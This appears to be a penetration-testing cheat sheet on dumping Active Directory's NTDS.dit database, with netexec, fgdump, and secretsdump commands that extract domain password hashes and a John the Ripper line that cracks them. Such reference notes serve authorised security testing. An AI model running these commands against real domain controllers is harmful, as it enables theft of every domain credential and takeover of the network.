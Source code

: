 # Dumping NTDS.dit

<details>

<summary>What is NTDS.dit ?</summary>

The NTDS file is the **database for Microsoft's Active Directory**. The NTDS file is stored on each domain controller and is created when a Windows server is promoted to domain controller. Its default location is: %SystemRoot%\ntds\NTDS.DIT.

NTDS.dit contains all the info on the domain (hashes...).

</details>

## netexec

```bash
# dump ntds on domain controller
nxc smb $dc_ip -u $admin_user -p $pass --ntds
```

## FGDump

{% embed url="https://www.softpedia.com/get/Security/Security-Related/fgdump.shtml" %}
FGDump
{% endembed %}

```powershell
.\fgdump.exe
```

## secretsdump

```bash
# when you have the ntds.dit
./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
```

## Cracking the hashes

```bash
john --format=NT hash --show
```
